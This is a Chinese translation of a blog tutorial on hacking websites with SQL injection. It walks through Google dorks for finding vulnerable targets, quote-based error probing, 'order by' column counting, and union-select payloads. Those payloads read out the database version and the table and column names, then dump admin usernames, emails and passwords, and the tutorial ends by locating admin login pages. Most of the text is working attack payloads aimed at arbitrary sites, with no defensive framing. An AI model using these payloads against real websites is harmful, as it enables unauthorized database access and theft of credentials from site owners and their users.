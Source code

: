 ```yaml
---
layout: post
title: Web攻击-Sql注入
categories:
- Security
tags:
- Hack
- Web Security
- Sql Injection
---
```


1. 什么是Sql Injection(Sql 注入)

[Sql Injcetion][Sql Inection]是一种非常流行的Web应用程序攻击方法. 通过Sql Injection攻击, 用户可以非法的访问网站的数据库, 甚至导出你的数据(拖库).

通过Sql Injection可以达到什么目的?

- 绕道登陆
- 访问安全数据
- 篡改网站数据
- 拖垮数据库服务器

Ok, Let's go.

Step 1: 寻找容易攻击的网站

在这里我们可以利用Google来寻找目标主机, 利用一些特点的关键词

eg:

	inurl:index.php?id=
	inurl:article.php?id=
	inrul:post.php?id=

我们称这些词为"Google dork".

选择一个适当的关键词进行搜索, 我们会获取到很多结果. 对这些结果一一进行漏洞测试.

注: 如果你要对一个特定的网站进行攻击,你应该这样搜索:

    site:www.example.com dork_list

Step 2: 漏洞测试

在你要测试的目标主机的url后面添加单引号('), 

eg:

	http://www.example.com/index.php?id=2'

如果网页显示正常或者'404 not found', 则这个主机是比较安全的. 对一个初学者, 建议重新选择一个目标.

如果网页显示如下的错误, 那么恭喜你, 可以顺利进入下一步了.
	
	You hava an error in SQL sytax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\" at line 1

Step 3: 获取表的字段数(列数)

上一步中我们已经获取了一个可以来用进行Sql Injection的目标主机. 这一步我们将获取到表的字段数.

替换上一步中我们添加的单引号(')为 "order by n", n从1开始不断的递增. 直到页面显示类似"unknown column"的错误.

eg:
    
	http://www.example.com/index.php?id=2 order by 1
	http://www.example.com/index.php?id=2 order by 2
	http://www.example.com/index.php?id=2 order by 3
	http://www.example.com/index.php?id=2 order by 4

假如在 order by x 的时候出现错误, 则字段数=x-1

如果上面的方法不起作用, 你可以试试下面的方法

eg:

	http://www.example.com/index.php?id=2 order by n --

Step 4: 获取易受攻击的字段

上一步中我们获取到了表的字段数.这一步我们通过连接查询获取容易受攻击的字段. 

首先, 将上一步中id=2修改为一个负数, 然后在后面添加 "union select 1,2,3,...x-1".

eg:

上一步中我们获取字段数位7, 输入格式如下:

	http://www.example.com/index.php?id=-2 union select 1,2,3,4,5,6,7 --

如果上面方法不起作用, 可以试试下面的格式:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,3,4,5,6,7 --

如果你得到类似下面的结果, 那么我们就可以进行下一步了.
	
	3 Query was empty 7

通过上面的结果, 我们获取了'3'和'7'字段是容易受攻击的. 我们就可以选择它们作为攻击的切入点.

Step 5: 获取数据库版本(version), 数据库名称(database), 用户(user)

我们在上一步中获取了'3'和'7'为容易受攻击的字段. 在这一步中,用version()替换其中的一个.

eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,version(),4,5,6,7 --

假如我们获取了版本version() 为5.0.1 .

相同的原理用database(), user()替换.

eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,database(),4,5,6,7 --
	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,user(),4,5,6,7 --

如果上面的不成功,可以尝试下面的方法:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,unhex(hex(@@version)),4,5,6,7 --

Step 6: 获取表名

用" group_concat(table_name) "替换3, 然后在后面添加 "from information_schema.tables where table_schema=database() --" 

eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema=database() --

注解: 通过Mysql的information_schema.tables 获取 输入数据库的database()的表.group_concat 是将这些表名连接起来. 

如果执行成功,我们将获取如下的格式:
	
	admin,banner,cini_news,cini_news_fr,gallery_categories,gallery_comments,gallery_groupaccess  Query was empty 	7

通过表名,你应该能够获得很多信息吧. 这里我选择"admin" 表

注: 也可以通过bind sql injection (Sql盲注)获表名, 但并不是这篇文章讨论的.

Step 7: 获取表的字段

替换"group_concat(table_name)"为"gourp_concat(column_name)"

替换"from information_schema.tables where talbe_schema=database()--"为"from information_schema.columns where table_name=char(table_name)--"
	
eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(column_name),4,5,6,7 from information_schema.columns where table_name=char(97,100,109,105,110)--

注意:char(table_name)是将表名转为 mysql char() string.

在线转换工具: http://wocares.com/noquote.php

如果成功执行, 我们得到类似如下的结果:

	id,admin_name,admin_email,admin_password

Step 8: 获取表内容

替换 "group_concat(column_name)"为"gourp_concat(columnname1,0x3a,anothercolumnname2)"

替换 "from information_schema.columns where table_name=char(column_name)" 为 "from table_name"

eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(admin_name,0x3a,admin_email,0x3a,admin_password),4,5,6,7 from admin --

现在我们就已经获取到了管理的所有信息.

Step 9: 获取管理员登陆页面

eg:

	http://www.example.com/admin.php
	http://www.example.com/admin/login.php
	http://www.example.com/admin.html

注: 在这里我们也可以借助Google. site:www.example.com inurl:admin 或者 site:www.example.com inurl:login 

Step 10:

下来的, 就交给你了.


英文原文: [Hacking website using sql injection][origin]

<!-- 原文地址 -->
[origin]: http://www.breakthesecurity.com/2010/12/hacking-website-using-sql-injection.html

<!-- 参考链接 -->

<!-- 外部链接 -->
[Sql Injection]: http://en.wikipedia.org/wiki/SQL_injection "Sql Injection"

